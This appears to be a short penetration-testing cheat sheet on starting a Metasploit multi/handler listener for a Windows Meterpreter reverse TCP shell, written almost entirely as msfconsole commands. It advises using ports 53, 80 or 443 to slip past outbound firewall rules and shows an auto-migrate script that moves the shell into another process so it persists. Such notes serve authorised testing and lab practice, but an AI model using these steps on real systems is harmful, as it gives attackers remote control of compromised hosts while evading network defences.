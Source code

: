 ```yaml
---
title: "Metasploit Listener"
date: 2024-6-26
tags: ["metasploit", "listener", "revshell", "msfconsole"]
---
```


### Start a Metasploit Listener

<div>

```console
msfconsole -q
```

```console
use exploit/multi/handler
```

```console
set payload windows/meterpreter/reverse_tcp
```

```console
set lhost <LOCAL_IP>
```

```console
set lport <LOCAL_PORT>
```

```console
run
```

</div>

<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

### If the shell die immediately, we can try to migrate it to another process

<div>

```console
# Create a automigrate.rc script
run post/windows/manage/migrate
```

</div>

<br>

<div>

```console
msfconsole -q
```

```console
use exploit/multi/handler
```

```console
set payload windows/meterpreter/reverse_tcp
```

```console
set lhost <LOCAL_IP>
```

```console
set lport <LOCAL_PORT>
```

```console
set AutoRunScript multi_console_command -r automigrate.rc
```

```console
run
```

</div>

<br>